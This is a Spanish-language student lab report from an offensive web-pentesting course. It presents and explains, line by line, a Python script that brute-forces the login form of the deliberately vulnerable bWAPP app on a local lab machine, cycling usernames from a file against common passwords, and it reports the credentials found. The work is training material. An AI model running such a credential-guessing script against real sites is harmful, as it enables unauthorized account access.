





Unidad 1
ACTIVIDAD N°2

**Nombre Alumna:** Fernanda Vergara Chávez
**Nombre Profesor:** Ángel Gangas - Asistente de clases: Violeta Gangas
**Diplomado:** Red Team Avanzado
**Curso:** PENTESTING WEB AVANZADO
**Fecha de entrega:** 22/09/2024

# Introducción

Este documento evidencia un ataque de fuerza bruta al formulario de inicio de sesión del sitio web bWAPP de la máquina "bee" utilizando un script en Python. El objetivo es probar cinco combinaciones de usuarios (leídos desde un archivo) contra cinco contraseñas predefinidas (almacenadas en el código). El script intentará cada combinación y verificará si el inicio de sesión fue exitoso analizando la respuesta del servidor. Esta actividad ayudará a entender cómo automatizar intentos de inicio de sesión mediante Python.

# Desarrollo

## I.  Ambiente, Herramientas y Archivos:

1. Se ha usado la máquina bee para atacar y la máquina Kali como atacante:




2. Se utilizó PyCharm para desarrollar y ejecutar el código:



3. Se creó el archivo users.txt que contiene la lista de usuarios que se referencia en el código:



## II.  Código python para el ataque:



A continuación, se desglosan las partes del código para explicar su funcionalidad:

**1.  Biblioteca requests:** Se importa la biblioteca que permite hacer solicitudes HTTP fácilmente, para enviar los datos de inicio de sesión:

```language
import requests
```

**2.  Definición de la URL de la página de inicio de sesión:** Se establece la dirección de la página web de bWAPP donde se enviarán las solicitudes de inicio de sesión:

```language
\# URL of the login page
url = 'http://192.168.106.129/bWAPP/login.php'
```

**3.  Leer los nombres de usuario desde users.txt:** Se abre el archivo que contiene los nombres de usuario. Cada línea se lee y se guarda en una lista llamada users:

```language
\# Load usernames from users.txt
with open('users.txt', 'r') as file:
        users = file.read().splitlines()
```

**4.  Definición de una lista de contraseñas:** Se crea un array que contiene las contraseñas comunes que se probarán en los intentos de inicio de sesión:

```language
\# List of passwords in the array
passwords = \['qwerty123', 'letmein', 'password123', 'password', '123456'\]
```

**5.  Bucle para iterar sobre usuarios y contraseñas:** Se crean bucles anidados. Por cada usuario en users, se probarán todas las contraseñas en passwords.

```language
\# Iterate over users and passwords (brute force attempts)
for user in users:
        for password in passwords:   
```       

**6.  Creación de los datos de inicio de sesión:** Se define un diccionario login\_data que contiene los datos que se enviarán en la solicitud POST. Las claves deben coincidir con los nombres de los campos del formulario en la página web.

```language
\# Create login data
            login\_data = {
                'login': user,            # Adjust the name if necessary based on the form field's 'name' attribute
                'password': password, # Adjust the field name if necessary based on the form's 'name' attribute
                'form': 'submit'          # Optional, depending on how the form submission works
            }
```

**7.  Enviar la solicitud POST:** Se envían los datos de inicio de sesión al servidor utilizando requests.post(), y se almacena la respuesta en la variable response.

```language
# Send the POST request to login
            response = requests.post(url, data=login\_data)
```

**8.  Imprimir cada intento:** Se muestra en la consola el nombre de usuario y la contraseña que se están probando en ese momento.

```language
# Print each attempt
            print(f"Trying username: {user}, password: {password}")
```

**9.  Verificación si el inicio de sesión fue exitoso:** Se busca en el contenido de la respuesta (texto HTML) palabras que indiquen éxito, como "Logout" o "Welcome".

```language
            # Check if the login was successful by checking response text
            if "Logout" in response.text or "Welcome" in response.text:  # Adjust this based on actual success message
```

**10.  Imprimir éxito de inicio de sesión:** Si se encuentra un mensaje que indica un inicio de sesión exitoso, se imprime un mensaje de éxito y se usa break para salir del bucle de contraseñas, ya que no es necesario probar más.

```language
                print(f" 🚀 Login Successful! Username: {user}, Password: {password}")
                break
```

**11.  Imprimir intento fallido:** Si el inicio de sesión no fue exitoso, se imprime un mensaje indicando que la combinación de usuario y contraseña falló.

```language
            else:
                print(f"Failed attempt. Username: {user}, Password: {password}")
```

**12.  Mensaje final:** Una vez que se han probado todas las combinaciones, se imprime un mensaje indicando que el ataque de fuerza bruta ha finalizado. Esta es la última parte del programa.

```language
print("Brute-force attack completed.")
```

## Resultados y Conclusiones

Intentos de Inicio de Sesión: Se realizaron múltiples intentos de inicio de sesión utilizando combinaciones de nombres de usuario y contraseñas comunes.

Éxito en el Login: Se logró un inicio de sesión exitoso con el usuario "fer" y la contraseña "123456", el cual pertenece a la cuenta creada en bWAPP.



# Referencias

* Código de python generado con IA, editado para dar funcionalidad según la cuenta creada de bWAPP y el archivo de users.txt.
* 
